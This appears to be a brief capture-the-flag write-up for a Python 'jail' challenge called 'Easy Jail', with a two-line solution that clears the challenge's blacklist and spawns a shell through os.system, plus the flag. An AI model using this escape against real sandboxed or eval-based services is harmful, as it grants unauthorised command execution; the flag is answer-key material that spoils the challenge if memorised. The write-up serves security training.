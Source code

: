 # Easy Jail

## Description

I made a completely secure calculator this time.

## Category

misc / jail

## Difficulty

Medium

## Attachments

- [challenge](./challenge/)

## Solution

```
BLACKLIST.clear()
__import__('os').system('sh')
```

# Flag

`KashiCTF{C4N_S71LL_CL3AR_8L4CKL15T}`

